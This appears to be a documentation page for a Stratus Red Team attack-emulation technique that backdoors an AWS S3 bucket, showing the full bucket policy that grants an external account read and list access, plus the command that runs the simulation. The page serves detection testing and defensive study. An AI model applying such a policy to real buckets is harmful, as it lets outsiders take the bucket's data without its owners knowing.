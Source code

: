 ```yaml
---
title: Backdoor an S3 Bucket via its Bucket Policy
---
```


# Backdoor an S3 Bucket via its Bucket Policy 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates data from an S3 bucket by backdooring its Bucket Policy to allow access from an external, fictitious AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an S3 bucket.

<span style="font-variant: small-caps;">Detonation</span>: 

- Backdoor the S3 Bucket Policy by setting the following Bucket Policy:

<pre>
<code>
{
  "Version":"2012-10-17",
  "Statement":[
    {
      "Effect": "Allow",
      "Principal": {
        "AWS":"arn:aws:iam::193672423079:root"
      },
      "Action": [
        "s3:GetObject",
        "s3:GetBucketLocation",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::%s/*",
        "arn:aws:s3:::%s"
      ]
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.backdoor-s3-bucket-policy
```